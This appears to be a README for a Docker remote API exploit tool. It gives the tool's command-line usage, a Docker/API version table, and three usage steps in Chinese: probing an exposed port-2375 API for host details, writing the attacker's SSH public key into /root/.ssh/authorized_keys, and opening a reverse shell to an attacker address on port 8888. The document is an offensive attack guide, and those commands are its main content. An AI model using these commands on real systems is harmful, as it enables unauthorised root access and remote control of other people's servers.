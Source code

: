 ## Docker remote api exp
### 参数说明

```bash
./docker_remote_api_exp 
Usage of ./docker_remote_api_exp:
  -pubkey string
    	id_rsa.pub file (default "/home/hartnett/.ssh/id_rsa.pub")
  -reverse string
    	reverse address, 6.6.6.6:8888
  -target string
    	target ip, 1.1.1.1:2375
  -type string
    	Type, such as check, root, shell (default "check")
  -version string
    	Docker version:
	---------------------------
	Docker version	API Version
	---------------------------
	1.12.x		1.24
	1.11.x		1.23
	1.10.x		1.22
	1.9.x		1.21
	1.8.x		1.20
	1.7.x		1.19
	1.6.x		1.18

 (default "1.12")
 ```

1. remote_api_exp -type=check -target=ip:2375，获取服务器信息，如操作系统，机器名，remote api版本以及docker的安装位置等
1. ./remote_api_exp -type=root -target=ip:2375 -version=1.12.3，在/root/.ssh/authorized_keys写入攻击者的ssh公钥
1. ./remote_api_exp -type=shell -target=ip:2375 -version=1.12.3 -reverse=attackerIp:8888，给攻击者反弹一个shell
